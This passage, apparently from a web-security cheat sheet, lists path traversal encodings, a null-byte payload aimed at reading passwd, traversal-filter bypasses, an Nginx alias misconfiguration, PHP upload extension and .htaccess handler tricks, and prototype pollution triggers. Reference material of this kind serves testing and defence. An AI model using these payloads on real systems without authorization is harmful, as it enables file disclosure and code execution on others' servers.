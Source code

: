     |                                 | %2e%2e/   | `../`  |
    |                                 | ..%2f     | `../`  |
    |                                 | %2e%2e%5c | `..\`  |
    | double URL encoding             | %252F     | `/`    |
    |                                 | %255C     | `\`    |
    | 16-bit Unicode encoding         | %u002e    | `.`    |
    |                                 | %u2215    | `/`    |
    |                                 | %u2216    | `\`    |
  - Null Bytes
    > bypass file type checking

    - `../../../../../passwd%00.jpg`
  - Mangled Paths
    > bypass removing traversal sequences

    - `....//`
    - `...\//`
    - `..//..//..\`        
  - Nginx Misconfiguration
    > Nginx off-by-slash fail
    >
    > `http://127.0.0.1/static../settings.py` => `/home/app/static/../settings.py`
    
    ```
    location /static {
      alias /home/app/static/;
    }
    ```

- Extension Bypass
  - pHP
  - pht, phtml, php[3,4,5,7]
  - html, svg
  - Apache2 Feature
    > xxx.abc => run as php file

    ```
    .htaccess
    ---------
    <FilesMatch "abc">
      SetHandler application/x-httpd-php
    </FilesMatch>
    ```

        
#### Prototype Pollution
- `a = new A()`
  - `a`.  \_\_proto\_\_ === `A`.prototype
- `undefined` may be replaced when its prototype has the attribute.
- Trigger
  - Set
    - [lodash](https://snyk.io/vuln/SNYK-JS-LODASH-608086) (\_.setWidth, \_.set)
  - Merge / Extend
    - CVE-2019-11358 (jQuery $.extend)
  - Clone
- Prototype Chain
  > When finding a property, JavaScript will go through the Prototype
    Chain until \_\_proto\_\_ is null.
